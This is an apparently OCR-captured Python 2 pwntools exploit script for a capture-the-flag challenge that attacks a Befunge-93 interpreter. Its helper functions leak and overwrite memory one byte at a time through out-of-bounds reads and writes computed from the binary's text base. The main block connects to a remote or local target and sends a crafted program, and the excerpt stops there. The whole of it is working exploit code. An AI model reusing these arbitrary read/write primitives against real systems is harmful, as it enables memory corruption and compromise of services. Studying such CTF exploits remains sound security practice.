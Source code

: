 ```python
def cal_offset(addr, text_base):
    start_from = text_base + 0x202040
    offset = addr - start_from
    off_80 = offset/80
    off_1 = offset%80

    return off_1, off_80

def leak_far_addr(addr, text_base, name):
    ret_addr = 0
    cnt = 0
    off_1, off_80 = cal_offset(addr, text_base)
    temp = int(math.sqrt(off_80))
    off_1 = (off_80 - temp**2)*80 + off_1

    for i in xrange(off_1, off_1+6):
        print "leaking %s byte : %d" % (name, cnt+1)
        r.sendline(str(i))
        r.sendline(str(temp))
        r.sendline(str(temp))
        ret = int(r.recvuntil(" "))
        ret_addr = ret_addr | ((ret&0xff) << 8*cnt)
        cnt += 1

    return ret_addr

def write_far_addr(addr, text_base, name, value):
    cnt = 0
    off_1, off_80 = cal_offset(addr, text_base)
    temp = int(math.sqrt(off_80))
    off_1 = (off_80 - temp**2)*80 + off_1

    for i in xrange(off_1, off_1+6):
        v = (value>>(8*cnt)) & 0xff
        print "writing %s byte %d : %x" % (name, cnt+1, v)
        r.sendline(str(v))
        r.sendline(str(i))
        r.sendline(str(temp))
        r.sendline(str(temp))
        cnt += 1

if __name__ == "__main__":
    
    #LOCAL = True
    LOCAL = False
    
    # construct befunge-93 program
    preline = myexec("wc -l ./bbb | awk '{print $1}'")
    preline = int(preline)
    f = open("./bbb", "r")
    s = f.read()
    s += "\n"*(80-preline)
    
    r, LD = None, None
    if not LOCAL:
        r = remote(HOST, PORT)
        LD = ELF("/mnt/files/ld-linux-x86-64.so.2")
    else:
        r = process(ELF_PATH)
        LD = ELF("/lib64/ld-linux-x86-64.so.2")

    # send program
    r.sendlineafter("> ", s)
```